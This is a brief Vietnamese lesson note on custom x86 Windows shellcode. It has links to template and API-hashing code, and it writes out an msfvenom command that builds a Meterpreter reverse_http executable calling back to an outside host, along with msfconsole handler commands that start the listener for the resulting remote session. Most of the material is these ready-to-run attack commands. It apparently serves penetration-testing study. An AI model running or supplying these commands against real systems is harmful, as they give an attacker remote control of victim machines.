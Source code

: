 # Bài 2:
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe
```

Để tạo listener trên máy kali khi thực thi shellcode:
```
# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.)
